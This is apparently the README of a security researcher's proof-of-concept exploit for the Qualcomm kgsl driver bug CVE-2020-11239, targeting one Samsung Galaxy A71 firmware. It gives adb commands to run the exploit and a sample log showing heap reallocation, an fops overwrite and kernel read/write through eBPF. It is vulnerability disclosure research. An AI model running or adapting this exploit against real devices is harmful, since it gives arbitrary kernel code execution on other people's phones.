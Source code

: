 ## Exploit for Qualcomm CVE-2020-11239

The write up can be found [here](https://securitylab.github.com/research/one_day_short_of_a_fullchain_android). This is a bug in the Qualcomm kgsl driver I reported in July 2020. The GitHub Advisory can be found [here](https://securitylab.github.com/advisories/GHSL-2020-375-kgsl). The bug can be used to gain arbitrary kernel code execution, read and write from the untrusted app domain.

The exploit is tested on Samsung Galaxy A71 with firmware version A715FXXU3ATJ2, Baseband A715FXXU3ATI5 and Kernel version 4.14.117-19828683. The offsets in the exploit refers to that version of the firmware. For different models of phones, the macro `DMA_ADDRESS`, which indicates the address of the SWIOTLB buffer, will also need to be changed.

The exploit is reasonably reliable, although it does need to wait a few minutes after start up, after the kernel activities settled down before running.

The most likely cause of failure is when it failed to locate the file structs after 5 retries. In this case there is no adverse effect and the phone will not crash. However, running the exploit immediately is unlikely to succeed and it usually requires waiting for a bit or doing something else to reorganize the heap before running it again.

To test, cross compile the file `kgsl_exploit_slab_a71.c` and then execute with `adb`:

```
adb push kgsl_exploit_slab_a71 /data/local/tmp
adb shell
a71:/ $ /data/local/tmp/kgsl_exploit_slab_a71
```

If succeeded, it will run a eBPF program to write and read to an address and confirm the successful read and write:

```
rpc opened
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19432
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
[+] syncing bounce buffers
done read 0
[+] Found null_fops at 2 region offset 32 ffffff80099d9788
null file addr: ffffffc12a993058
[+] ion region location: ffffffc12a992000
[+] bpf addr: ffffff8008317088
overwrite fops ffffff80099d9788
overwrite fops 0
[-] Failed to find dma_buf_fops
[+] syncing bounce buffers
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19938
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
running bpf program
bpf_data 0x3039
[+] successful read
```
